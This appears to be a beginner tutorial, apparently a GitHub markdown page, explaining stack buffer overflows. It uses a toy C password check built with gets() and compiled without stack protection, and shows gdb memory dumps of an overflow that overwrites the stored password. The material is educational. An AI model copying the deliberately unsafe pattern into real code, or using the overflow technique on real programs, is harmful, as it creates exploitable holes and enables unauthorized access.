

# Introduction
Stack-Based Buffer Overflow exploits are  likely the shiniest and most common form of exploit for remotely taking over the code execution of a process. These exploits were extremely common 20 years ago, but since then, a huge amount of effort has gone into mitigating stack-based overflow attacks by operating system developers, application developers, and hardware manufacturers, with changes even being made to the standard libraries developers use.

:memo: Understanding these kind of exploits involves at least a basic understanding of computer memory. Memory in a computer can be thought as a "drawer" for storing data and instructions. It's important to say that this kind of environment where data and instructions are stored together is known as Von Neumann architecture (which it's still in use in most computers to this day).


John Von Neumann

---

## Example
Take this particular example, which was explained in a [rapid7 blog](https://blog.rapid7.com) 
```c
#include <signal.h>
#include <stdio.h>
#include <string.h>
int main(){
	char realPassword[20];
	char givenPassword[20];

	strncpy(realPassword, "ddddddddddddddd", 20);
	gets(givenPassword);
	
	if (0 == strncmp(givenPassword, realPassword, 20)){
		printf("SUCCESS!\n");
	}else{
		printf("FAILURE!\n");
	}
	raise(SIGINT);
	printf("givenPassword: %s\n", givenPassword);
	printf("realPassword: %s\n", realPassword);
	return 0;
}
```

What we see here is a C code snippet. We create 2 buffers of 20 characters each. When we run the program, space for there local variables is created inside the memory, after that, it populates the `realPassword` value with a string, then prompts the user for a password and copies that value into the `givenPassword` value. Afterwards it compares them, printing "success" if they match and "failure" if they don't.
#### Let's try and run the code!
:bulb: **IMPORTANT: DISABLE STACK PROTECTION SO WE CAN SEE SUCCESSFULLY HOW STACK-BASED OVERFLOW CAN BE EXPLOITED**

```bash
# gcc example.c -o test.bin -fno-stack-protector
root@computer:/tmp# ./test.bin
1234567
FAILURE!
```
And this is exactly what we expect, the password we entered doesn't match `ddddddddddddddddddddd`. Let's examine memory and see what it does under the hood :blush:

```c
root@computer:/tmp# gdb test.bin
(gdb) run
Starting program: /tmp/test.bin
aaaaaaaaaaa
FAILURE!

Program received signal SIGINT, Interrupt.
__GI_raise (sig=<optimized out>) at ...
```
Here we hit the signal "SIGINT" so we can take a look at the stack without quitting the debugger, I personally think of the debugger as a microscope, a tool for examining with big detail what is happening and we can't see with our bare eyes. The command "info frame" will allow us to find the location in memory of the local variables wich will be on the stack.

```c
(gdb) info frame
Stack level 0, frame at 0x7ffffffee4e0:
 rip = 0x7fffff03efb7 in __...
 called by frame at 0x7ffffffee530
 source language c.
 Arglist at 0x7ffffffee3b8, args: sig=<optimized out>
 Locals at 0x7ffffffee3b8,.... <-- locals address!!
 Saved registers:
  rip at 0x7ffffffee4d8
```
We got where the local variables are, let's print that area of memory:
```c
(gdb) x/200x 0x7ffffffee3b8
[...]
0x7ffffffee3b8:	0x00000000	0x00000000	0x0040072d	0x00000000
0x7ffffffee3c8:	0x61616161	0x61616161	0x61616161	0x61616161
0x7ffffffee3d8:	0x61616161	0x61616161	0x61616161	0x00006161
0x7ffffffee3e8:	0x64646464	0x64646464	0x64646464	0x00646464
[...]
``` 
If you know ASCII, then you know the letter ‘a’ is represented in memory by the value 0x61 and the letter ‘d’ is 0x64. You can see above that they are right next to each other in memory. The realPassword buffer is right after the givenPassword buffer.

---

## Can we hack this now?
Yes indeed!! We have looked at the stack, and noticed that the buffers are located one besides the other, let's see what happens if we feed the buffer more data than it can hold.

```c
(gdb) run
Starting program: /tmp/test.bin
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
FAILURE!
givenPassword: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
realPassword: aaaaaaaa

Program received signal SIGINT, Interrupt.
0x00007ffff7a42428 in __GI_raise (sig=2) at ...
54	../sysdeps/unix/sysv/linux/raise.c: No such file or directory.
[...]
(gdb) x/200x 0x7fffffffddd0
0x7fffffffddd0:	0x00000000	0x00000000	0x0040072d	0x00000000
0x7fffffffdde0:	0x61616161	0x61616161	0x61616161	0x61616161
0x7fffffffddf0:	0x61616161	0x61616161	0x61616161	0x61616161
0x7fffffffde00:	0x61616161	0x61616161	0x64646400	0x00646464
0x7fffffffde10:	0x00000000	0x00007fff	0x00000000	0x00000000
0x7fffffffde20:	0x00400740	0x00000000	0xf7a2d830	0x00007fff
```
The first thing to notice is that we went far enough to pass through the allotted space for givenPassword and managed to alter the value of realPassword, which is a huge success. We did not alter it enough to fool the program, though. Since we are comparing 20 characters and we wrote eight characters to the realPassword buffer, we need to write 12 more characters. So, let’s try again, but with 52 instances of ‘a’ this time:

```c
(gdb) run
Starting program: /tmp/test.bin
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
SUCCESS!
givenPassword: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
realPassword: aaaaaaaaaaaaaaaaaaaa

Program received signal SIGINT, Interrupt.
0x00007ffff7a42428 in __GI_raise (sig=2) at ...
54	../sysdeps/unix/sysv/linux/raise.c: No such file or directory.
(gdb) info frame
Stack level 0, frame at 0x7fffffffdde0:
 rip = 0x7ffff7a42428 in __GI...
 called by frame at 0x7fffffffde30
 source language c.
 Arglist at 0x7fffffffddd0, args: sig=2
 Locals at 0x7fffffffddd0, Previous frame's sp is 0x7fffffffdde0
 Saved registers:
  rip at 0x7fffffffddd8
(gdb) x/200x 0x7fffffffddd0
0x7fffffffddd0:	0x00000000	0x00000000	0x0040072d	0x00000000
0x7fffffffdde0:	0x61616161	0x61616161	0x61616161	0x61616161
0x7fffffffddf0:	0x61616161	0x61616161	0x61616161	0x61616161
0x7fffffffde00:	0x61616161	0x61616161	0x61616161	0x61616161
0x7fffffffde10:	0x61616161	0x00007f00	0x00000000	0x00000000
```
Eureka!
 We overflowed the buffer for "givenPassword" and the data went straight into "realPassword". This is an example of a buffer (or stack) Overflow exploit. 
 
 ---

 # Summary
 We have seen one of the most famous exploits of all time (in a very simple way). The viewer should take into consideration that most of these "simple" exploits are mostly warned when compiled with newer versions (of GCC for example) and a myriad of security measures have been taked into consideration, but don't ever think developers are perfect machines.
 
  Most of the time, these kind of exploits come from old functions or libraries that lack security measures, some companies like [microsoft](https://docs.microsoft.com/en-us/previous-versions/bb288454(v=msdn.10)) has a web page documenting what it calls “banned” functions.

 Thanks for your attention :)

